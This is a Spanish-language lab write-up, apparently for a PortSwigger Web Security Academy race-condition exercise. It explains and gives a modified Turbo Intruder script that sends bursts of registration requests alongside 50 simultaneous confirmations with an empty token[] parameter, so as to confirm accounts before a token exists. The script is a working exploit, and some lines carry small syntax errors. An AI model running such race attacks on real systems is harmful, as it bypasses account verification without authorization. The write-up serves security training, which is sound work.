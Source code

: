 En esta clase utilizamos Turbo Intruder para lanzar una ráfaga de registros junto con múltiples confirmaciones simultáneas. El ataque está diseñado para saturar la ventana de carrera antes de que el token se haya escrito, enviando confirmaciones con un **token[]** vacío.

Para lograrlo, usamos una plantilla adaptada que coordina el envío sincronizado de las peticiones de registro y confirmación mediante “**gates**“. Esta ejecución masiva aumenta significativamente la probabilidad de éxito del ataque.

La clase se centra en cómo diseñar, personalizar y lanzar correctamente este ataque desde Turbo Intruder.

Solucion
dentro del turbo intruder seleccionamos el race-single-packet-attack
y lo modificamos

(def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    confirmation_email =  '''POST /confirm?token[]= HTTP/2
Host: 0ade005a033104308015582a00e700ce.web-security-academy.net
Cookie: phpsessionid=RxwYlBG5FYgFJmUUJwzvxA29D7mv7opF
Content-Length: 0

'''
    
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'Marik' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmation_email, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req))
    